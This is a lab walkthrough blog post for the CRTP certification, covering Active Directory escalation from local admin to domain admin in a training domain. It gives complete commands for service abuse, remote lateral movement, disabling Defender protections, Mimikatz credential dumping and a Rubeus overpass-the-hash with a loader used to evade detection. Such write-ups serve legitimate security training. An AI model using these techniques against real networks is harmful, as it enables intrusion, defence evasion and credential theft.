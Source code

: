 ```yaml
---
title: Active Directory (AD) | Exploiting Local Admin to Domain Admin
date: 2024-07-01 00:00:00
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: This topic covers the steps and techniques involved in leveraging local administrator access on machines
---
```


![Result](/img/crtp/result10.png){: width="972" height="589" }

## **Step 1: Check for Privilege Escalation Paths**
**Tools Used:** PowerView. This step ensures you can escalate your privileges on the current machine to gain local admin rights. Start by checking for any privilege escalation paths. If any services can be abused, add your domain user to the local admin group.

The Invoke-AllChecks function gathers information on the Active Directory environment, accessible network shares, local administrators, active user sessions, domain trust relationships, and services permissions to aid in network reconnaissance

```bash
Invoke-AllChecks
```
![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

## **Step 2: Abusing Services**
**Tools Used:** PowerView. After running Step 1, you will have identified a few services that can be abused. We can exploit these services to add our current domain user to the local Administrators group. 

Adding a user to the local Administrators group allows them to perform administrative tasks such as installing software, changing system settings, and accessing all files on the system, which can be crucial for further exploitation and maintaining control over the machine.

```bash
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Now, our user is a local admin !_


## **Step 3: [Lateral Movement] Identifying Additional Machines for Local Admin Access**

**Tools Used:** Find-PSRemotingLocalAdminAccess.ps1. After gaining local admin rights on one machine, identifying other machines where you have local admin access helps in expanding your control over the network. This can give you access to more resources, data, or higher-privilege accounts. So, you have to identify any computers/machines in the domain where our user has local administrative access.

```bash
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
_Userx has administrative access on dcorp-adminsrv and on the student machine_

## **Step 4: [Lateral Movement] Exploiting Remote Access**

After identifying machines with local admin access, we can remotely connect using tools like winrs and PowerShell Remoting (Enter-PSSession) because local admin rights grant us the necessary permissions to access and control these machines remotely over the network.

### winrs Remoting
```bash
winrs -r:dcorp-adminsrv cmd
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

### PowerShell Remoting
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## **Step 5: Derivative Local Admin**

Utilize derivative local admin access gained in Step 3 and 4 to identify machines with active domain admin sessions. Exploit these sessions to escalate privileges and potentially gain Domain Admin access, utilizing techniques such as token stealing or credential extraction.

**Tools Used:** Invoke-Mimi. To dump hashes or extract credentials from dcorp-adminsrv, we will use Invoke-Mimi.

### Disable Windows Defender on the target machines
```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### Disable AMSI on the target machines
```bash
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

### Using Dot Sourcing in PowerShell Scripts | Invoke-Mimi
In environments with strict security policies or when PowerShell operates in Constrained Language Mode, dot sourcing (.) scripts like Invoke-Mimi.ps1 may be restricted.

So, we must modify Invoke-Mimi.ps1 to include the function call in the script itself and transfer the modified script (Invoke-MimiEx.ps1) to the target server. Here is step-by-step :

- Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx.ps1. 
- Open Invoke-MimiEx.ps1 in PowerShell ISE (Right click on it and click Edit). 
- Add "Invoke-Mimi -Command '"sekurlsa::ekeys"' " (without quotes) to the end of the file.
- Copy the Invoke-MimiEx.ps1 to the target machines
```bash
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
- Run the modified mimikatz script
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local'
.\Invoke-MimiEx.ps1
```
![Result](/img/crtp/result13.png){: width="972" height="589" }

Here we find the credentials of the srvadmin, appadmin and websvc users. 


## **Step 6: OverPass-the-Hash | Obtaining TGT using Rubeus**

### Understanding Ticket Granting Tickets (TGTs)
Ticket Granting Tickets (TGTs) are a fundamental part of the Kerberos authentication protocol. When a user successfully authenticates to the Key Distribution Center (KDC), they receive a TGT. This TGT is a form of credential that allows the user to request service tickets (TGS) for accessing specific network services and resources within the Kerberos realm. It contains encrypted information about the user's identity, session key, and other relevant data required for subsequent authentication.

### Steps to Obtain TGT with Rubeus

- Encode arguments (like asktgt) using tools such as ArgSplit.bat to ensure secure transmission and evasion of detection.
![Result](/img/crtp/result11.png){: width="972" height="589" }
-  Use Loader.exe to initiate Rubeus with the encoded arguments (/args %Pwn%) to request a TGT. 
```bash
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:srvadmin
/aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
/opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
![Result](/img/crtp/result12.png){: width="972" height="589" }
- This retrieves a TGT for the specified user (srvadmin), enabling further operations within the Kerberos realm

![Result](/img/crtp/result12.png){: width="972" height="589" }

- The new process that starts has srvadmin privileges. Check if srvadmin has admin privileges on any other machine.

